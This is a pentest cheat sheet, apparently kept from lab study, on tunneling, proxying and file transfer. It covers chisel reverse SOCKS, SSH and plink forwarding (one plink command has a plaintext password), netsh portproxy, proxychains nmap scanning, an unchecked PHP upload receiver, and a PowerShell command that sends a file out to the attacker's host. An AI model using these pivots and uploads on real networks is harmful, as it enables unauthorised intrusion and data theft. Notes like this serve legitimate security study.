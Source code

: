 # Tunnel Proxy Transfer

## Tunnel

### chisel

<https://github.com/jpillora/chisel>

```bash
# server
./chisel server -p 4444 --reverse

# client
./chisel client 172.16.8.144:4444 R:socks
```

### ssh

#### ssh forwarding

```bash
#local port forwarding
sudo ssh -N -L 127.0.0.1:8080:192.168.18.1:80 kali@127.0.0.1
```

```bash
# remote port forwarding

sudo ssh -N -R 172.16.8.144:7070:192.168.18.1:80 kali@172.16.8.144
```

#### ssh tunnel

```bash
# forward ssh tunnel
ssh -N -D 127.0.0.1:9090 yuanfh@172.16.8.136
```

```bash
# reverse ssh tunnel
ssh -N -R 9090 kali@172.16.8.144
```

### plink

kali ip:172.16.8.144
intranet http server ip:192.168.18.1:80
so this is a reverse tunnel.

```cmd
scp kali@172.16.8.144/usr/share/windows-binaries/plink.exe .
plink -ssh -l kali -pw kali -R 172.16.8.144:5050:192.168.18.1:80 172.16.8.144
```

request to kali:5050 will be forwarded to intranet http server.

### netsh

local windows ip:172.16.8.152
intranet http server ip:192.168.18.1:80
so this is a forward tunnel.

```cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=172.16.8.152 connectport=80 connectaddress=192.168.18.1
```

request to windows:8080 will be forwarded to intranet http server.

## Proxy

### proxychains

nmap -sT means TCP connect scan, you shuld add -sT when you use proxychains to scan.

```bash
proxychains nmap -sT -vv 192.168.18.1
```

## Transfer

### download

#### rdp

```bash
xfreerdp /u:offsec /p:lab /v:192.168.159.61 /drive:home,/home/parallels/Downloads
```

### upload

#### appache php server

/var/www/html/upload.php

```php
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir.$_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile);
?>
```

```bash
sudo mkdir /var/www/uploads
sudo chown www-data: /var/www/uploads
```

```powershell
powershell (new-object System.Net.WebClient).UploadFile('http://172.16.8.144/upload.php', 'C:\Users\Public\nc.exe')
```

## Tips

1.
